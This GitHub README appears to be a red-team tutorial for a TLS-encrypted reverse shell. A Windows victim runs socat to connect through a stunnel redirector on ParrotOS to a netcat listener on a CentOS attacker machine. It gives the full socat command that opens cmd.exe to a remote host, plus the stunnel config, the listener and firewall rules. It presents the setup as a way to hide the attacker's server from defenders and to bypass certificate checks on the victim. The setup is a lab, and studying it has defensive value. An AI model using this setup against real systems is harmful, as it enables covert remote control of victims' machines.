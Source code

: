 # TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective Redteam architecture to serve a reverse shell. Following the diagram:
<br>![Screenshot](RedTLS.png)<br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder for the blue teamers buddies :) <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate and that's no good since the scarcity of them. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted
### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.17 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Here install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnell4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Verify
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br>![Screenshot](run.png)<br>

We can inspect the traffic usign Wireshark*:
<br>![Screenshot](ssl_hand.png)<br>

## Conclusion

This is a simple architecture that would require a little built effort, a trusted public IP and eventually a valid TLS certificate are necessarty to work better, even if the last one is not a strict requirement as long as we are able to bypass the certificate validation on the victim, like in this scenario. Of course if the redirector is compromised it can reveal the private IP address of the attacker but since this is not public one it can be easely changed. In a real engagment of course we have to hardening even the redirector leaving open on the public interface only the port 443, the managmente will be performend throught the private interface. At least a host firewall is stongly recommended even on the redirector.

---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
